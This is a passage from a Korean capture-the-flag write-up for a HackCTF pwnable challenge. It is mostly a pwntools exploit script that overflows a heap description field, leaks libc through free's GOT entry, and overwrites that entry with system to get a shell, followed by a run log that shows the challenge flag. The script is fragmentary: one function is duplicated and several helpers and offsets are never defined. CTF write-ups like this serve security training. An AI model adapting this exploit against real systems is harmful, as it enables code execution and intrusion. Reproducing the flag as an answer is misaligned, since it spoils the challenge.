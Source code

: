 def display_location(index):
        p.recvuntil('Choice: ')
        p.sendline('2')
        p.recvuntil('Index: ')
        p.sendline(str(index))

def display_location(index):
        p.recvuntil('Choice: ')
        p.sendline('2')
        p.recvuntil('Index: ')
        p.sendline(str(index))

def update_desc(index, text):
        p.recvuntil('Choice: ')
        p.sendline('3')
        p.recvuntil('Index: ')
        p.sendline(str(index))
        p.recvuntil('Text length: ')
        p.sendline(str(len(text)))
        p.recvuntil('Text: ')
        p.sendline(str(text))

add_location(16,'AAAAAAAA','AA')
add_location(16,'BBBBBBBB','BB')
add_location(16,'/bin/sh\x00','/bin/sh\x00')
delete_location(0)
add_location(128,'CCCCCCC','D'*160+p32(free_got))

display_location(1)
p.recvuntil('Description: ')
free_address=u32(p.recv(4))

libc_base=free_address-free_offset
system_address=libc_base+system_offset

update_desc(1,p32(system_address))
</pre>

flag는 다음과 같다.
<pre>
root@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/29.vndtnwlfltjf# python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3028: Done
[*] Switching to interactive mode
$ cat flag
HackCTF{1_h34rd_1t_thr0ugh_th3_gr4p3v1n3}
</pre>

**flag: HackCTF{1\_h34rd\_1t\_thr0ugh\_th3\_gr4p3v1n3}**